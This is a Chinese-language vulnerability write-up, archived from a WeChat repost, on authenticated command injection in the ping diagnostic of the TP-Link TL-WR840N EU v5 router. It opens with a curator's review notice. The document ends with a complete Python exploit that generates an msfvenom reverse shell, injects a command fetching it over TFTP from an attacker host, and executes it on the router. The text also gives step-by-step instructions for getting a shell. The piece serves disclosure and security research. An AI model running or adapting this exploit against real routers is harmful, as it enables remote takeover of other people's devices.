# TP-Link TL-WR840N EU v5 远程代码执行

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：TP-Link TL-WR840N EU v5
- 本文讨论：CVE-2021-41653由原始URL指向；正文标题未编号
- 版本、权限与配置前提：固件171211完整串；用户名密码、WAN连通、MIPSLE；UART仅调试
- 资料类型：认证后命令注入研究与脚本；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- CVE未入元数据，源链接才体现；修复建议缺失
- URL和Referer内重复硬编码目标，配置顶层URL无效；工具称Meterpreter但脚本生成shell/reverse_tcp，监听负载需一致
- 多关键请求/输出在截图，不过完整脚本可补主要请求

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 原研究CVE、固定固件与WAN必要性待核验，未生成或执行载荷
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/1WCQ7rpJUmGWFZUigTZ_gA)

型号： TP-Link TL-WR840N EU v5  
易受攻击的固件版本： TL-WR840N(EU)_V5_171211 / 0.9.1 3.16 v0001.0 Build 171211 Rel.58800n



通过 UART 轻松 root
---------------

        使用 FT232 设备来获取对设备的 root 访问权限，这个控制台在漏洞利用开发过程中非常有用。



```
# check serial port
screen /dev/tty.usbserial-AB0LR7NH 115200
```



使用 UART 控制台仅用于调试

以下屏幕截图包含 GUI 上的相关输入参数，用户提供的输入参数不会在服务器端清理，它用于执行 PING 命令。

注意： WAN 线必须插好，路由器 IP 地址为 192.168.1.1。



供应商使用客户端 JavaScript 保护，但可以通过代理轻松绕过。



执行命令时，可以在串行控制台上看到确切的命令。



我使用了 ghidra 和其他逆向工程工具来检查发生了什么，但是现在在服务器端没有清理参数就足够了。

要在路由器上执行代码，必须发送以下两个请求：

注意：还有其他请求，但它们不是实现代码执行所必需的。



简单的代码执行
-------

下图包含 /var/tmp 文件夹的内容（通过 UART）该文件夹是可写的。



修改 host 参数创建文件：



/var/tmp/k44 文件内容如下：



反壳
--

供应商提供的程序是有限的。成功的攻击需要多个步骤。TFTP 客户端可用于将文件从攻击者复制到路由器。



注意：用户名和密码是必需的。

1.  生成 meterpreter shell (IP, PORT)
    
2.  准备 TFTP 服务器
    
3.  复制 shell 到 TFTP 服务器
    
4.  打开 Meterpreter 侦听器
    
5.  向路由器发送请求
    
6.  通过 TFTP 下载 shell
    
7.  执行二进制文件并连接回攻击者
    

代码执行的重要部分执行以下操作：

1.  上传外壳
    
2.  更改 shell 的权限
    
3.  执行外壳
    



POC + 演示
--------

笔记：

1.  使用 kali vm 和 msfvenom 工具来生成一个反向 shell 二进制文件。该架构是 MIPSLE。
    
2.  使用 atfpd 服务器作为 TFTP 服务器
    

使用多处理程序：



执行脚本：



反壳：



POC

```
#!/usr/bin/python3
###############################################################
### tplink_TL-WR840N-EU-v5-rce-exploit_v1.py 
### Version: 1.0
### Author: Matek Kamillo (k4m1ll0)
### Email: matek.kamillo@gmail.com
### Date: 2021.09.06.
##############################################################

import requests
import os
import base64

USERNAME = "admin"
PASSWORD = "admin"
URL = "http://192.168.1.1/cgi"
PATH = "/srv/tftp/shell"
ATTACKER_IP = "192.168.1.101"
COMMAND = "$(echo 127.0.0.1; tftp -g -r shell -l /var/tmp/shell " + ATTACKER_IP + "; chmod +x /var/tmp/shell; /var/tmp/shell)"

def base64_encode(s):
    msg_bytes = s.encode('ascii')
    return base64.b64encode(msg_bytes)


class Exploit(object):
    def __init__(self, username, password, command):
        self.username = username
        self.password = password
        self.command = command

        self.URL = "http://192.168.1.1/cgi"
        self.session = requests.session()
        #self.proxies = { 'http' : 'http://192.168.1.100:8080'}
        self.proxies = { }
        self.cookies = { 'Authorization' : 'Basic ' + base64_encode(username + ":" + password).decode('ascii') }
        self.headers = { 'Content-Type': 'text/plain', 'Referer' : 'http://192.168.1.1/mainFrame.htm' }

    def _prepare(self):
        print("Generating reverse shell.")
        command = "msfvenom -p linux/mipsle/shell/reverse_tcp -f elf LHOST=" + ATTACKER_IP + " LPORT=2000 -o " + PATH
        os.system(command)

    def _send_ping_command(self):
        URL = self.URL + '?2'
        data = '[IPPING_DIAG#0,0,0,0,0,0#0,0,0,0,0,0]0,6\r\n'
        data += 'dataBlockSize=64\r\n'
        data += 'timeout=1\r\n'
        data += 'numberOfRepetitions=4\r\n'
        data += 'host=' + self.command + '\r\n'
        data += 'X_TP_ConnName=ewan_ipoe_d\r\n'
        data += 'diagnosticsState=Requested\r\n'
        r = self.session.post(URL, headers=self.headers, data=data, cookies=self.cookies, proxies=self.proxies)

    def _send_execute_command(self):
        URL = self.URL + '?7'
        data = '[ACT_OP_IPPING#0,0,0,0,0,0#0,0,0,0,0,0]0,0\r\n'
        r = self.session.post(URL, headers=self.headers, data=data, cookies=self.cookies, proxies=self.proxies)
        
    def execute(self):
        self._prepare()
        self._send_ping_command()
        self._send_execute_command()

if __name__ == "__main__":
    e = Exploit(USERNAME, PASSWORD, COMMAND)
    e.execute()
```

视频：

https://youtu.be/GBuuGdeTKgw

https://k4m1ll0.com/cve-2021-41653.html

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
